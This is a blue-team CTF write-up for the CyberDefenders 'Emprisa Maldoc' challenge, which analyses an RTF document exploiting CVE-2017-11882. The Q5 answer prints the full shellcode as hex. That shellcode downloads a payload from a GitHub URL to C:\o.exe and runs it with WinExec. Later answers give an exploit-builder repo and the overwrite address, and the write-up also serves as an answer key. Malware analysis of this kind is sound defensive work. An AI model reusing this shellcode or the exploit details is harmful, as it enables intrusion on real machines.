

# [CyberDefenders - Emprisa Maldoc](https://cyberdefenders.org/blueteam-ctf-challenges/emprisa-maldoc/)
Created: 22/06/2024 12:51
Last Updated: 22/06/2024 18:39
* * *
>Category: Malware Analysis
>Tags: Malicious Document, RTF, Shellcode, scdbg, T1071, T1140, T1059.003, T1566.001
* * *
**Case Overview**:
As a SOC analyst, you were asked to inspect a suspected document a user received in his inbox. One of your colleagues told you that he could not find anything suspicious. However, throwing the document into the sandboxing solution triggered some alerts.

Your job is to investigate the document further and confirm whether it's malicious or not.

**Tools**:
- Microsoft office IDE
- rtfdump.py
- Scdbg or Speakeasy
- Debugger
* * *
## Questions
> Q1: What is the CVE ID of the exploited vulnerability?


We can use `rtfobj` on this rtf file directly and it will give you an analysis of this file which it was designed to exploit CVE-2017-11882 


Which is a RCE vulnerability found in Equation Editor of Microsoft Office

```
CVE-2017-11882
```

> Q2: To reproduce the exploit in a lab environment and mimic a corporate machine running Microsoft office 2007, a specific patch should not be installed. Provide the patch number.


Go to https://msrc.microsoft.com/update-guide/en-US/advisory/CVE-2017-11882 then we can see that there is a patch specific for Windows Office 2007 Server Pack 2

```
KB4011604
```

> Q3: What is the magic signature in the object data?


By using `rtfdump.py` then we can see that shell code that will be executed is stored inside object 7 which you can also find the file magic here

```
d0cf11e0
```

> Q4: What is the name of the spawned process when the document gets opened?


Since this CVE is exploited Equator Editor and `EQNEDT32.EXE` is the process of this editor so we expected to see this process was spawned under `winword.exe` which is Microsoft Word process


And this any.run report has confirmed out expectation

```
EQNEDT32.EXE
```

> Q5: What is the full path of the downloaded payload?


We already know that object 7 is where shellcode might resided 


So we will use `rtfdump.py -s 7 -a -d c39-EmprisaMaldoc.rtf > shellcode.bin` to dump shellcode to a new file so we can use `scdbg` (shellcode debugger) to debug this shellcode


But we cannot use this file to debug right away since there are so much garbage data to be taking care of, we only need shellcode to be debugged 


Lets use `rtfdump.py -s 7 -H c39-EmprisaMaldoc.rtf` to dump object 7 in hex and also decoded as ASCII on the right side, the shellcode is separate to 2 parts and this is part 1

We can also see that "Equation Native" is a string that separated this first part from the second part


And here is the second part, we can see that there is a github url that likely to be a payload that will be downloaded when this shellcode got executed


Now after deleting all the things except for shellcode then your file to be debugged should look like this

```
48905D006C9C5B0000000000030101030A0A01085A5AB844EB7112BA7856341231D08B088B098B096683C13CFFE190909090909090909090909090909090909090901421400000009090909090909090909090909090909090909090909090909090909090909090909090909090909033C9648B41308B400C8B7014AD96AD8B58108B533C03D38B527803D38B722003F333C941AD03C381384765745075F4817804726F634175EB8178086464726575E28B722403F3668B0C4E498B721C03F38B148E03D333C951682E65786568433A5C6F5352516861727941684C696272684C6F61645453FFD283C40C59505166B96C6C51686F6E2E646875726C6D54FFD083C4108B54240433C95166B965415133C9686F46696C686F616454686F776E6C6855524C445450FFD233C98D542424515152EB4751FFD083C41C33C95A5B5352516878656361884C24036857696E455453FFD26A058D4C241851FFD083C40C5A5B6865737361836C2403616850726F6368457869745453FFD2FFD0E8B4FFFFFF68747470733A2F2F7261772E67697468756275736572636F6E74656E742E636F6D2F6163636964656E74616C726562656C2F6163636964656E74616C726562656C2E636F6D2F67682D70616765732F7468656D652F696D616765732F746573742E706E67
```


Debug this file with `scdbg` which we can see the answer we're looking for


Here is the summary of this shellcode


The easiest way to obtain this question is also finding process tree or file dropped from VirusTotal but we couldn't get most of question if we didn't dump shellcode to debug

```
C:\o.exe
```

> Q6: Where is the URL used to fetch the payload?
```
https://raw.githubusercontent.com/accidentalrebel/accidentalrebel.com/gh-pages/theme/images/test.png
```

> Q7: The document contains an obfuscated shellcode. What string was used to cut the shellcode in half? (Two words, space in between)
```
Equation Native
```

> Q8: What function was used to download the payload file from within the shellcode?


```
URLDownloadToFileA
```

> Q9: What function was used to execute the downloaded payload file?


```
WinExec
```

> Q10: Which DLL gets loaded using the "LoadLibrayA" function?


```
urlmon.dll
```

> Q11: What is the FONT name that gets loaded by the process to trigger the buffer overflow exploit?(3 words)


I dumpped all objects I could then we can see that object 8 contains this FONT name which should be the one that will be responsible for buffer overflow

```
Times New Roman
```

> Q12: What is the GitHub link of the tool that was likely used to make this exploit?


Search for exploitation of this CVE then we will find this github repo which we're looking for

```
https://github.com/rip1s/CVE-2017-11882
```

> Q13: What is the memory address written by the exploit to execute the shellcode?


By reviewing exploitation code then we can see the payload will be added to specific memory address.

```
0x00402114
```


* * *
